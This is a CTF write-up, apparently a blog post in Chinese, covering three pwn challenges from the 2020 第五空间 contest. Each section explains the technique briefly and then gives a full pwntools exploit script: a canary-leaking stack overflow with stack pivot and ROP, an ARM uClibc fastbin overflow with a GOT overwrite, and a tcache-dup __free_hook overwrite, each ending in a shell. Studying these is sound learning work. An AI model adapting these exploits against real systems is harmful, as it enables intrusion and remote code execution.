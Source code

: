 ```yaml
---
title: 第五空间 2020 Pwn
date: 2020-06-25 00:00:00
categories:
- CTF/Pwn
tags: 栈溢出 堆溢出 UAF
---
```


三道题的题目附件：[5space_attachment.zip](https://xuanxuanblingbling.github.io/assets/pwn/5space_attachment.zip)

## twice

带canary的栈溢出，可以通过puts泄露栈溢出并且出题人会修好溢出泄露时对canary最后一个0字节的破坏。第二次输入时即可栈溢出劫持返回地址，但是因为溢出长度受限无法直接ROP。通过劫持到leave上，进行栈迁移，到输入的缓冲区上进而完成ROP。在ROP中，首先通过puts泄露GOT表进而泄露libc，然后将程序控制流返回到_start上进而继续栈溢出即可劫持控制流到one_gadget上，进而完成控制流劫持。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
io = remote("121.36.59.116",9999)
uu64    = lambda data   :u64(data.ljust(8, b'\0'))

# leak canary and stack
io.recvuntil(">");io.send("a"*89);io.recv(89)
canary = uu64('\x00'+io.recv(7))
stack = uu64(io.recv(6))

# stack overflow to leak libc and go back _start
io.recvuntil(">")
payload = p64(0)
payload += p64(0x400923)        # pop rdi
payload += p64(0x601020)        # puts_got
payload += p64(0x4005C0)        # puts
payload += p64(0x400630)        # _start
payload =  payload.ljust(88)    # full the buffer
payload += p64(canary)          # canary
payload += p64(stack-112)       # buffer addr
payload += p64(0x400879)        # leave to hijack rsp to buffer addr
io.send(payload)
io.recvline()
libc = uu64(io.recv(6))-0x6f690
log.warn(hex(libc))

# pass the first input
io.recvuntil(">");io.send("a");io.recvuntil(">")

#stack overflow to one gadget
payload = ""
payload = payload.ljust(88)     # fill stack with NULL to satisfy one_gadget
payload += p64(canary)          # canary
payload += p64(stack-112)       # buffer addr
payload += p64(libc+0x4526a)    # one_gadget
io.send(payload)

io.interactive()
```

## pwnme

arm的堆溢出，使用的是uclibc，在bss段构造伪堆块并且通过堆溢出将fastbin的fd指向伪堆堆块，即可将堆块分配到bss段，通过修改bss段的指针数据，即可泄露libc并且修改got表，最终通过修改free的got表为system，然后free掉一个内容是$0的chunk即可getshell。比赛中并没有搭好环境，以下exp为盲测结果，其中的偏移并不知道为何。

```python
from pwn import *
context(log_level='debug',os='linux',arch='arm')
io = remote('121.36.58.215', 1337)
libc = ELF('./libuClibc-1.0.34.so')

sla         = lambda delim,data          :  (io.sendlineafter(delim, data))
show        = lambda                     :  (sla(">>> ","1"))
add         = lambda len,data            :  (sla(">>> ","2"),sla("Length:",str(len)),sla("Tag:",data))
edit      	= lambda index,len,data      :  (sla(">>> ","3"),sla("Index:",str(index)),sla("Length:",str(len)),sla("Tag:",data))
delete      = lambda index               :  (sla(">>> ","4"),sla("Tag:",str(index)))

# just try and don't know why to -2
fd = 0x2106c - 8 - 2  
free_got = 0x00021038

# prepare chunks
add(0x40,'a')
add(0x40,'a')
add(0x40,'a')
add(0x40,'$0\x00')

# use heap overflow to modify the fd of fastbin chunk to bss
delete(1)
edit(0,0x88,'a'*0x44+p32(0x48)+p32(fd))

# get the fake chunk and modify bss data to free_got
# just try and don't know why to 34+2
add(0x40,'a')
add(0x40,'a'*(34+2) + p32(free_got))

# print free_got to leak libc
show();io.recvuntil('0 : ')
leak = u32(io.recv(4))
log.success(hex(leak))
libc.address = leak - libc.symbols['free']

# modify free_got to system
edit(0,4,p32(libc.symbols['system']))

# trigger system($0)
delete(3)
io.interactive()
```

## of

libc2.27，有tcache，原题直接给了c源码，在源码中，堆块的使用、申请与释放存在着cookie的保护，使得虽然在释放后存在悬空指针，但是并无法触发UAF或者double free。但是在远程环境中，cookie似乎没有起到任何作用，所以直接通过基本的堆利用的手段，UAF泄露unsorted bin地址以及tcache dup完成泄露libc基址以及任意地址写，最后通过改写__free_hook，完成控制流劫持进而getshell。

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
io = remote('121.36.74.70', 9999)
libc = ELF('./libc-2.27.so')

sla         = lambda delim,data          :  (io.sendlineafter(delim, data))
add         = lambda index            	 :  (sla("choice:","1"),sla("Index: ",str(index)))
edit        = lambda index,data          :  (sla("choice:","2"),sla("Index: ",str(index)),sla("Content: ",str(data)))
show        = lambda index            	 :  (sla("choice:","3"),sla("Index: ",str(index)))
delete      = lambda index            	 :  (sla("choice:","4"),sla("Index: ",str(index)))
uu64    	= lambda data   :u64(data.ljust(8, b'\0'))

# use unsorted bin to leak libc
for i in range(8): add(i)
for i in range(7): delete(i+1)
delete(0);show(0)
io.recvuntil('Content: ')
libc.address = uu64(io.recv(6))-0x3ebca0

# empty tcache
for i in range(9): add(i)

# use tcache dup to aaw
delete(0)
delete(0)
add(0);edit(0,p64(libc.symbols['__free_hook']))
add(1);
add(2);edit(2,p64(libc.symbols['system']))

# use free(3) trigger system($0)
edit(3,'$0\x00');delete(3)
io.interactive()
```